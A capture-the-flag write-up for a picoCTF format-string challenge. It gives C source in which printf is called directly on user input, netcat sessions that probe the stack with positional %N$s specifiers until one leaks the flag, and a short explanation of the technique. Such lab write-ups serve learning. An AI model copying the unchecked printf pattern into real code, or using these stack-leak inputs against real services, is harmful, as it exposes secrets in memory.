 ***Flag:*** <br>
picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
<br>
***Approaching the challenge:*** <br>
Source code:
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
The datatype used in the code was fishy since the string I am inputting was stored in the variable *story* in the form of ``` %127s```. <br>
The hint said format strings, so with this hint I used AI and it explain how a ``` format string specifer``` is used in this ``` %-number-$s```. <br>
The number indicates the position in which the flag may be there since, they're stored as a **stack*** and not as a simple string variable. <br>
After multiples such tries:
```
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %1$s
Here's a story -
%1$s
w
^[[A^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %2$s
Here's a story -
$�
ok
^[[A^[[A^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> $3%s
Here's a story -
$3$3%s
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %10%s
Here's a story -
%s
nc saturn.picoctf.net 51310^[[A
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %10$s
Here's a story -
(null)
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %15$s
Here's a story -
�������
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %20$s
Here's a story -
�a*�
^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %25$s
Here's a story -
�*��
^[[A^C
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %30$s
Here's a story -
̓ii
```
Finally got it in the 24th stack:
```
root@Advait:~# nc saturn.picoctf.net 51310
Tell me a story and then I'll tell you one >> %24$s
Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
```
<br>
Hence when the input is stored in such a format string, we use "%number$s" to find out which stack has the flag or desired output. It basically replicates
"%p %p %p %p %p ...... %s" <br>
The "%p" prints the memory address from the stack and the %s converts is to a string to print.

